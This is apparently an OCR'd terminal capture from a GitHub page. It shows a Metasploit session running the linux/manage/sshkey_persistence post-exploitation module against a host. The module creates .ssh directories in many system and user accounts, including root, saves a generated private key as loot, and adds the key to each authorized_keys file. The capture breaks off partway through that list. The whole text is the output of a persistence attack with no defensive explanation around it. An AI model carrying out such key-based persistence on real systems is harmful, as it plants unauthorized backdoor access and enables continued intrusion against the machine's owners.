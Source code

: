 ```
msf5 post(linux/manage/sshkey_persistence) > exploit

[*] Checking SSH Permissions
[*] Authorized Keys File: .ssh/authorized_keys
[*] Finding .ssh directories
[*] Creating /bin/.ssh folder
[*] Creating /dev/.ssh folder
[*] Creating /home/ftp/.ssh folder
[*] Creating /home/ftp
/.ssh folder
[*] Creating /home/jackie/.ssh folder
[*] Creating /nonexistent/.ssh folder
[*] Creating /root/.ssh folder
[*] Creating /run/sshd/.ssh folder
[*] Creating /run/systemd/netif/.ssh folder
[*] Creating /run/systemd/resolve/.ssh folder
[*] Creating /usr/games/.ssh folder
[*] Creating /usr/sbin/.ssh folder
[*] Creating /var/backups/.ssh folder
[*] Creating /var/cache/man/.ssh folder
[*] Creating /var/lib/gnats/.ssh folder
[*] Creating /var/list/.ssh folder
[*] Creating /var/mail/.ssh folder
[*] Creating /var/run/ircd/.ssh folder
[*] Creating /var/spool/lpd/.ssh folder
[*] Creating /var/spool/news/.ssh folder
[*] Creating /var/spool/uucp/.ssh folder
[*] Creating /var/www/.ssh folder
[+] Storing new private key as /root/.msf4/loot/20230324102030_Linux_persistenc_192.58.78.3_id_rsa_905412.txt
[*] Adding key to /bin/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /dev/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /home/ftp/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /home/jackie/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /nonexistent/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /root/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /run/sshd/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /run/systemd/netif/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /run/systemd/resolve/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /usr/games/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /usr/sbin/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /var/backups/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /var/cache/man/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /var/lib/gnats/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /var/list/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /var/mail/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /var/run/ircd/.ssh/authorized_keys
```